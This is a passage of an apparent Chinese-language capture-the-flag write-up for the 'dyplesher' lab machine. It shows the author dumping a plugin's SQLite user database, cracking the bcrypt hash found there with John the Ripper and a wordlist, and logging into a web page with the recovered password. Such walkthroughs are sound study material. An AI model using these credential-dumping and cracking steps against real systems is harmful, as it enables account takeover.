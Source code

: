 可以看到在`4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/plugins/LoginSecurity`下有一个名为`users.db`的数据库文件。

用file命令查看发现是sqlite数据库文件：

```
╭─kali@kali ~/repositories/4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/plugins/LoginSecurity ‹master› 
╰─$ file users.db
users.db: SQLite 3.x database, last written using SQLite version 3027002
```

`.tables`命令查看数据表信息：

```
╭─kali@kali ~/repositories/4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/plugins/LoginSecurity ‹master› 
╰─$ sqlite3 users.db
SQLite version 3.33.0 2020-08-14 13:23:32
Enter ".help" for usage hints.
sqlite&gt; .tables
users
```

设置`.header on`显示表头，不然会看得比较懵：

```
sqlite&gt; .header on
sqlite&gt; select * from users;
unique_user_id|password|encryption|ip
18fb40a5c8d34f249bb8a689914fcac3|$2a$10$IRgHi7pBhb9K0QBQBOzOju0PyOZhBnK4yaWjeZYdeP6oyDvCo9vc6|7|/192.168.43.81
```

有一串加密密码，利用john the ripper解密，得到`alexis1`：

```
╭─kali@kali ~ 
╰─$ cat hash
$2a$10$IRgHi7pBhb9K0QBQBOzOju0PyOZhBnK4yaWjeZYdeP6oyDvCo9vc6
╭─kali@kali ~ 
╰─$ john hash --wordlist=/root/htb-tools/wordlists/rockyou.txt    
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
alexis1          (?)
1g 0:00:00:56 DONE (2020-11-05 08:08) 0.01768g/s 28.06p/s 28.06c/s 28.06C/s alexis1..cameron1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

利用这个密码`[felamos@dyplesher.htb](mailto:felamos@dyplesher.htb) : alexis1`登录 [http://dyplesher.htb/login](http://dyplesher.htb/login) :

[![](https://p1.ssl.qhimg.com/t011111e49a468e9818.png)](https://p1.ssl.qhimg.com/t011111e49a468e9818.png)
